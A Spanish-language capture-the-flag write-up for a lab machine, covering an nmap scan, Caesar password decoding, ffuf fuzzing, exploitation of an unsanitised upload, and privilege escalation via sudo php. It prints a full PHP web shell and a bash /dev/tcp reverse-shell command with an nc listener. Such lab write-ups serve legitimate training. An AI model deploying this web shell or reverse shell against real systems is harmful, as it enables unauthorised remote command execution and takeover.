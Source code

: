 Fecha: 03/09/2024

Empiezo escaneando la máquina: 
```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](../Imágenes/Pasted%20image%2020240903165012.png)
Por lo que parece tiene tanto http en el puerto 80 como https en el 443. Hay un fichero llamado backup.txt, que voy a ojear: 
![](../Imágenes/Pasted%20image%2020240903165118.png)
Da la contraseña para el usuario `mateo`, que está cifrada con Caesar (que consiste en sumar el valor de una letra a n y luego hacer módulo del mismo). 

Usaré un script similar al que creé para resolver el reto [credstuff](../../picoCTF/Cryptography/Medium/credstuff/credstuff.md) de picoCTF:

```python
import string
letras_minusculas = list(string.ascii_lowercase)

entrada = "hdvbfuadcb"

n_letras = len(letras_minusculas)

for i in range(n_letras):
    salida = ""
    for caracter in entrada:
        salida += letras_minusculas[(letras_minusculas.index(caracter)+i)%n_letras]
    print(salida)
```

De entre todas las salidas la más legible es "easycrxazy", así que probaré con esa primero (cuando sepa donde usarla, claro).

Cuando accedo por https veo que es un "blog" al que los usuarios pueden subir archivos. De momento, hay un "post1.txt" subido, así que pruebo a intentar subir archivos. Pruebo a subir otros "txts" y funciona: 

![](../Imágenes/Pasted%20image%2020240903170512.png)

Usaré fuzzing para encontrar el path a los archivos, y ver si podré hacer un local file inclusion:
```bash 
ffuf -c -w /usr/share/wordlists/directory-list-2.3-medium.txt -u https://172.17.0.2/FUZZ  -e .php,.html,.txt,.js,.py -o fuzzing  
```

Hay un directorio uploads, en el que se encuentran los archivos:

![](../Imágenes/Pasted%20image%2020240903170750.png)
![](../Imágenes/Pasted%20image%2020240903170818.png)

Intentaré subir una command line de php como la usado en la máquina "Dockerlabs":
#TODO insertar enlace cuando separe las máquinas por ficheros
```php
SHELL:  
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
Simplemente me descargo el código del repositorio y lo meto en el archivo "shell.php". Por lo que parece la subida de archivos no está sanitizada, ya que me permite subirlo directamente: 

![](../Imágenes/Pasted%20image%2020240903171242.png)

Desde la misma me haré una reverse shell a mi máquina:
```bash
# En la shell virtual:
bash -c 'bash -i >& /dev/tcp/172.17.0.1/9001 0>&1'
# En mi máquina atacante:
nc -lvnp 9001
```


![](../Imágenes/Pasted%20image%2020240903172228.png)

Tras probar con todas las contraseñas, intento a quitar la x, que me resultaba rara:

![](../Imágenes/Pasted%20image%2020240903172340.png)

Veo que puedo usar php como superusuario, así que compruebo https://gtfobins.github.io/gtfobins/php/#sudo, de forma exitosa:

![](../Imágenes/Pasted%20image%2020240903172435.png)
